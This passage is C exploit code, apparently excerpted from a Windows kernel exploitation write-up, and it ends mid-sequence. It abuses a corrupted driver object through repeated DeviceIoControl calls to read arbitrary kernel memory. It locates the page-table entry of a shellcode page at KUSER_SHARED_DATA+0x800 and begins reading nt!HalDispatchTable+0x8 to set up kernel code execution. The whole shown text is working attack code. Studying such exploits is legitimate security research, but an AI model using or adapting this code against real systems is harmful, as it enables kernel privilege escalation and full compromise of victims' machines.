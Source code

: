 ```c
    shellcodePte = shellcodePte & 0x7FFFFFFFF8;
    shellcodePte = shellcodePte + pteBase;

    // Print update
    printf("[+] KUSER_SHARED_DATA+0x800 PTE page: 0x%llx\n", shellcodePte);

    // Assign the target address to the corrupted object
    helperobjectArray[index].Name = &shellcodePte;

    // Set the Name member of the "corrupted" object managed by the global array to obtain the address of the shellcode PTE page
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Declare a variable that will receive the PTE bits
    unsigned long long pteBits = 0x9090909090909090;

    // Setting the Name member of the main object
    mainObject.Name = &pteBits;

    // Perform the "Get" operation on the main object
    DeviceIoControl(
        driverHandle,
        0x0022206b,
        &mainObject,
        sizeof(mainObject),
        &mainObject,
        sizeof(mainObject),
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Print update
    printf("[+] PTE bits for shellcode page: %p\n", pteBits);

    // Store nt!HalDispatchTable+0x8
    unsigned long long halTemp = kernelBase + 0xc00a68;

    // Assign the target address to the corrupted object
    helperobjectArray[index].Name = &halTemp;

    // Set the Name member of the "corrupted" object managed by the global array to obtain the pointer at nt!HalDispatchTable+0x8
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Declare a variable that will receive [nt!HalDispatchTable+0x8]
```